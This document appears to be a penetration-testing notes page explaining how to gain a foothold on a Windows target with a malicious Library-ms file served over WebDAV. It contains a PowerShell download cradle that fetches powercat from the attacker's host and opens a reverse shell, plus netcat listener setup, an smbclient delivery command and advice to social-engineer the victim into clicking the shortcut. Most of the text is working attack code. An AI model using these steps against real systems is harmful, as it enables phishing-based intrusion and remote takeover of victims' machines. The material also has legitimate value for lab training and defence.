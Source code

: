 # Windows Library Files

## Explination

In the first stage, we'll use Windows library files to gain a foothold on the target system and set up the second stage. In the second stage, we'll use the foothold to provide an executable file that will start a reverse shell when double-clicked.

## Execution

First we need to install and setup a WebDAV share. We are using a WebDAV share over something like a simple http server so that it can be rendered in Windows explorer.

```bash
mkdir wsgidav
cd wsgidav
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root $(pwd)
```

We will then create the payload to be sent to the target. It will be a `Library-ms` file that can view our WebDAV share remotely.

**config.Library-ms**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://OUR_IP</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Next we will create a `.lnk` file that will launch our reverse shell. Because `.lnk` files have restricted character lengths, we will use a powercat cradle.

**automatic_configuration.lnk:**

```powershell
powershell -nop -noni -ep bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$OUR_IP:8000/powercat.ps1');powercat -c $OUR_IP -p 445 -e powershell"
```

We will now place `automatic_configuration.lnk` in the directory where we are serving our wsgidav web server so that the target can run it after opening `config.Library-ms`

```bash
mv automatic_configuration.lnk wsgidav
```

Before sending the `config.Library-ms` file, we can setup our listeners with the following commands in separate terminals

```bash
python3 -m http.server
```

```bash
rlwrap -cAr nc -lvnp 445
```

We can then place the `.lnk` within our WebDAV directory, and send `config.Library-ms` to our target and social engineer them into opening `config.Libary-ms` and click on `automatic_configuration.lnk`

One way to do this is through uploading the library to a SMB server via `smbclient`

```bash
smbclient //192.168.1.195/share -c 'put config.Library-ms'
```
